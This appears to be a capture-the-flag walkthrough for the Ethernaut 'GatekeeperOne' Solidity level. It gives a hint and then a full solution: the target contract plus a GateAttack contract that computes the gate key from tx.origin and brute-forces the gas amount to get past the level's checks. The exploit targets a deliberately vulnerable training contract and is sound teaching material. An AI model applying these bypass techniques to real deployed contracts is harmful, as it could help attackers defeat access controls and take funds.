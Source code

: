 # GatekeeperOne

**HINT:** Look back at the Telephone and Token levels. Along with reading through the info given [here.](https://medium.com/coinmonks/ethernaut-lvl-13-gatekeeper-1-walkthrough-how-to-calculate-smart-contract-gas-consumption-and-eb4b042d3009) It will really help you understand gas usage and datatype conversions.
<details>
<summary>Answer</summary>
<p>

```
pragma solidity ^0.6.0;

contract GatekeeperOne {


  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft()%8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}

contract GateAttack {

  constructor(address GatekeeperOneContractAddress) public {
    bytes8 key = bytes8(uint64(uint16(tx.origin)) + 2 ** 32);

    bytes memory encodedParams = abi.encodeWithSignature(("enter(bytes8)"),
      key
    );


    for (uint256 i = 0; i < 120; i++) {
      (bool result, bytes memory data) = address(GatekeeperOneContractAddress).call.gas(
          i + 150 + 8191 * 3
        )(
          encodedParams
        );
      if(result)
        {
        break;
      }
    }
  }
}
``` 
All you have to do is deploy with you instance address. Double check you are now the with entrant:
```js
await contract.entrant()
````